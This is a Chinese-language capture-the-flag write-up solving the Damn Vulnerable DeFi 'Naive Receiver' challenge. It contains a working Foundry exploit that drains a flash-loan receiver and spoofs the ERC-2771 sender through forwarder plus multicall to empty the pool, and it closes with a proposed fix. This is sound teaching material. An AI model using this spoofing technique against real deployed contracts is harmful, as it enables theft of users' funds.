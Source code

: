 ## 题目 [Naive Receiver](https://github.com/theredguild/damn-vulnerable-defi/tree/v4.0.0/src/naive-receiver)
有一个池子里有 1000 WETH 余额，提供闪电贷。该池子收取固定费用为 1 WETH。这个池子通过与一个无权限的转发合约集成，支持元交易。  

一个用户部署了一个样本合约，余额为 10 WETH。看起来这个合约可以执行 WETH 的闪电贷。  

所有资金都有风险！需要将用户和池子里的所有 WETH 拯救出来，并存入指定的恢复账户。  

**解释：** 题目要求需要清空资金池和接收者合约中的所有 WETH 到恢复账户。并且从测试文件可以看出，需要两次或更少的交易中完成挑战。

## 前置知识
### [ERC-2771](https://eips.ethereum.org/EIPS/eip-2771)
ERC-2771 是元交易的标准。用户可以将交易的执行委托给第三方 Forwarder，通常称为中继器或转发器。  
通常合约中直接调用者的地址是使用 msg.sender 获取的，但在使用了 ERC-2771 的情况下，如果 msg.sender 是转发器角色的话，那么会截断传入的 calldata 并获取最后 20 个字节来作为交易的直接调用者地址。  

### Multicall
Multicall 是一个智能合约库，其作用是允许批量执行多个函数调用，从而减少交易成本。这个库通常用于优化 DApp 的性能和用户体验，特别是当需要进行多个读取操作时。  


## 合约分析
主要的三个合约是：  
`NaiveReceiverPool`: 提供闪电贷的池子，有 1000 个 WETH 可提供，同时支持 Forwarder 和 Multi call，还具有存款和取款功能。  
`FlashLoanReceiver`: 闪电贷接收者，初始余额 10 个 WETH。  
`BasicForwarder`: 中继器合约，用来执行交易。  

**任务1：清空`FlashLoanReceiver`合约的资产。**  
在 `FlashLoanReceiver` 合约的 `onFlashLoan` 函数中，并没有对发起闪电贷的地址做检查，所以任何地址都可以发起以该合约为名义的闪电贷，那么通过将接收者合约作为目标发起闪电贷，由于手续费为 1 WETH，那么调用 10 次，即可以耗尽。并且可以使用 Multi call 在一笔交易中完成。
``` solidity
function onFlashLoan(address, address token, uint256 amount, uint256 fee, bytes calldata)
    external
    returns (bytes32)
{
    assembly {
        // gas savings
        if iszero(eq(sload(pool.slot), caller())) {
            mstore(0x00, 0x48f5c3ed)
            revert(0x1c, 0x04)
        }
    }

    if (token != address(NaiveReceiverPool(pool).weth())) revert NaiveReceiverPool.UnsupportedCurrency();

    uint256 amountToBeRepaid;
    unchecked {
        amountToBeRepaid = amount + fee;
    }

    _executeActionDuringFlashLoan();

    // Return funds to pool
    WETH(payable(token)).approve(pool, amountToBeRepaid);

    return keccak256("ERC3156FlashBorrower.onFlashLoan");
}
```

**任务2：清空 `NaiveReceiverPool` 合约资产。**  
在`NaiveReceiverPool`合约中取资产的方式有 `withdraw`，并且存款和取款使用了一个自定义的 `_msgSender()` 函数，在这个函数中是取中继器发来的 `msg.data` 的最后 20 个字节作为 `msgSender` 。正常来说，通过中继器调用`NaiveReceiverPool`合约时，会将真正的发送者的地址拼接到最后 20 字节，正常调用没什么问题。但是关键点在于，这个合约集成了 Forwarder 和 Multi call 功能，那么通过中继器调用 Multi call 时，虽然在最后拼接了真正的发送者地址，但是如果通过 Multi call 在调用不同的子调用，调用到 `withdraw` 函数时，调用者自己拼接上某个地址，此时 `_msgSender()` 函数会返回这个地址。中继器拼接上的地址将不会算在这次的子调用的 `calldata` 中。好的，此外那我们拼接的这个地址需要在 `deposits` 变量中有资产。
``` solidity
function withdraw(uint256 amount, address payable receiver) external {
    // Reduce deposits
    deposits[_msgSender()] -= amount;
    totalDeposits -= amount;

    // Transfer ETH to designated receiver
    weth.transfer(receiver, amount);
}

function deposit() external payable {
    _deposit(msg.value);
}

function _deposit(uint256 amount) private {
    weth.deposit{value: amount}();

    deposits[_msgSender()] += amount;
    totalDeposits += amount;
}

function _msgSender() internal view override returns (address) {
    if (msg.sender == trustedForwarder && msg.data.length >= 20) {
        return address(bytes20(msg.data[msg.data.length - 20:]));
    } else {
        return super._msgSender();
    }
}
```
之后仔细看 `flashLoan` 函数，发现手续费接收地址 `feeReceiver` 是会增加 `deposits` 的。并且根据测试文件和构造函数，可以看出 `deployer` 和 `feeReceiver` 是同一个地址。  
``` solidity
function flashLoan(IERC3156FlashBorrower receiver, address token, uint256 amount, bytes calldata data)
    external
    returns (bool)
{
    if (token != address(weth)) revert UnsupportedCurrency();

    // Transfer WETH and handle control to receiver
    weth.transfer(address(receiver), amount);
    totalDeposits -= amount;

    if (receiver.onFlashLoan(msg.sender, address(weth), amount, FIXED_FEE, data) != CALLBACK_SUCCESS) {
        revert CallbackFailed();
    }

    uint256 amountWithFee = amount + FIXED_FEE;
    weth.transferFrom(address(receiver), address(this), amountWithFee);
    totalDeposits += amountWithFee;

    deposits[feeReceiver] += FIXED_FEE;

    return true;
}
```

## 题解
基于上述分析，我们可以得出攻击方法：  
1. 调用中继器 `forwarder` 合约执行后面的交易。
2. 中继器调用 `multicall` 函数，并且在 `call data` 中填入调用 10 次闪电贷，和调用一次 `withdraw`。
3. 并且在 `call data` 最后拼上 `feeReceiver` 地址。

调用 `forwarder` 之前还需要拼好签名。测试代码如下：  
``` solidity
function test_naiveReceiver() public checkSolvedByPlayer {
    bytes[] memory callDatas = new bytes[](11);
    for(uint i = 0; i < 10; i++){
        callDatas[i] = abi.encodeCall(NaiveReceiverPool.flashLoan, (receiver, address(weth), 0, "0x"));
    }
    callDatas[10] = abi.encodePacked(abi.encodeCall(NaiveReceiverPool.withdraw, (WETH_IN_POOL + WETH_IN_RECEIVER, payable(recovery))),
        bytes32(uint256(uint160(pool.feeReceiver())))
    );
    bytes memory callData;
    callData = abi.encodeCall(pool.multicall, callDatas);
    BasicForwarder.Request memory request = BasicForwarder.Request(
        player,
        address(pool),
        0,
        30000000,
        forwarder.nonces(player),
        callData,
        block.timestamp
    );
    bytes32 requestHash = keccak256(
        abi.encodePacked(
            "\x19\x01",
            forwarder.domainSeparator(),
            forwarder.getDataHash(request)
        )
    );
    (uint8 v, bytes32 r, bytes32 s)= vm.sign(playerPk ,requestHash);
    bytes memory signature = abi.encodePacked(r, s, v);
    require(forwarder.execute(request, signature));
}
```
**运行测试：**  
```
forge test --mp test/naive-receiver/NaiveReceiver.t.sol -vv
```

**测试通过：**  
```
Ran 2 tests for test/naive-receiver/NaiveReceiver.t.sol:NaiveReceiverChallenge
[PASS] test_assertInitialState() (gas: 34878)
[PASS] test_naiveReceiver() (gas: 416956)
Suite result: ok. 2 passed; 0 failed; 0 skipped; finished in 15.46ms (7.34ms CPU time)
```

## 漏洞修复
可以修改 `multicall` 函数，如果是 forwarder 合约发来的调用，那么在每个子调用中都拼接上真正发送者地址。
```solidity
function multicall(
    bytes[] calldata data
) external override returns (bytes[] memory results) {
    results = new bytes[](data.length);
    bytes memory __msgSender;
    if (msg.sender == trustedForwarder) {
        __msgSender = msg.data[msg.data.length - 20:];
    }
    for (uint256 i = 0; i < data.length;) {
        results[i] = Address.functionDelegateCall(
            address(this),
            abi.encodePacked(data[i], __msgSender)
        );
        unchecked {
          ++i;
        }
    }
    return results;
}
```